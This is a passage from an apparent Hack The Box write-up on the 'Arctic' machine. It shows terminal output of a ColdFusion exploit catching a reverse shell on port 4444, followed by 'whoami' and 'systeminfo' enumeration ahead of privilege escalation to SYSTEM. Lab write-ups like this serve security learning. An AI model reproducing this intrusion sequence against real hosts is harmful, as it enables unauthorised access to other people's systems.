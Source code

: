 ```bash

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 52070


Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

I got `tolis`'s shell!



# Shell as `SYSTEM`

### Windows Exploit Suggester

I found out that there's no hot-fix applied on the target which doesn't make sense because the OS is quite outdated.

```bash
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          22/1/2025, 4:34:58 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 4.922 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.038 MB
Virtual Memory: In Use:    1.247 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
```